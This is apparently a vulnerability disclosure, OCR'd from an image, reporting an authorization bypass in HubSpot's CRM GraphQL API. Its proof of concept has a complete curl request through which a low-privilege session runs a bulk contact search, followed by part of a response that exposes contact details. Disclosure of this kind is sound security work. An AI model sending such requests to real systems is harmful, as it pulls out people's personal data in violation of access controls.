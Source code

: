 **Severity:** CRITICAL
**CVSS Score:** 8.1 (High)
**CWE:** CWE-639 (Authorization Bypass Through User-Controlled Key)

#### Description

A low-privileged account was able to execute high-privileged GraphQL queries (CrmObjectsSearchQuery) that should only be accessible to users with full CRM access. The GraphQL endpoint does not properly validate that the authenticated user has authorization to execute specific operation types.

#### Proof of Concept

**Expected Behavior:**
- LOW-PRIV account should only execute: `FetchContactSuggestions` (single email lookup)
- HIGH-PRIV account can execute: `CrmObjectsSearchQuery` (bulk search, 25+ contacts)

**Actual Behavior:**
- LOW-PRIV account successfully executed `CrmObjectsSearchQuery` with all 31 properties
- HTTP 200 OK response
- Returned 3 complete contact records

**Request:**
```bash
curl -k 'https://app-na2.hubspot.com/api/graphql/crm?portalId=242862774&clienttimeout=14000&hs_static_app=crm-index-ui&hs_static_app_version=2.49867' \
  -X POST \
  -H 'X-HubSpot-CSRF-hubspotapi: [LOW-PRIV-CSRF-TOKEN]' \
  -H 'Cookie: [LOW-PRIV-COOKIES]' \
  --data-binary '{
    "operationName":"CrmObjectsSearchQuery",
    "variables":{
      "filterGroups":[{"filters":[]}],
      "objectTypeId":"0-1",
      "query":"",
      "properties":["company","createdate","email","firstname","hs_additional_domains","hs_additional_emails","hs_all_accessible_team_ids","hs_all_owner_ids","hs_all_team_ids","hs_analytics_source","hs_analytics_source_data_1","hs_language","hs_lastactivitydate","hs_latest_source","hs_latest_source_data_1","hs_marketable_reason_type","hs_object_id","hs_object_source_id","hs_pipeline","hubspot_owner_id","hubspot_team_id","jobtitle","lastname","lifecyclestage","name","notes_last_contacted","notes_last_created","notes_last_updated","objectType","phone","product_purchased","support_priority"],
      "sorts":[{"property":"createdate","order":"DESC"},{"property":"hs_object_id","order":"DESC"}],
      "count":25,
      "offset":0
    },
    "query":"query CrmObjectsSearchQuery..."
  }'
```

**Response:**
```json
{
  "extensions": null,
  "data": {
    "crmObjectsSearch": {
      "total": 3,
      "offset": 3,
      "results": [
        {
          "id": 295353254646,
          "objectId": 295353254646,
          "properties": [
            {"name": "email", "value": "fraiser@980am.com"},
            {"name": "firstname", "value": "Fraiser"},
            {"name": "lastname", "value": "What?"},
            {"name": "hubspot_owner_id", "value": "159548558"},
```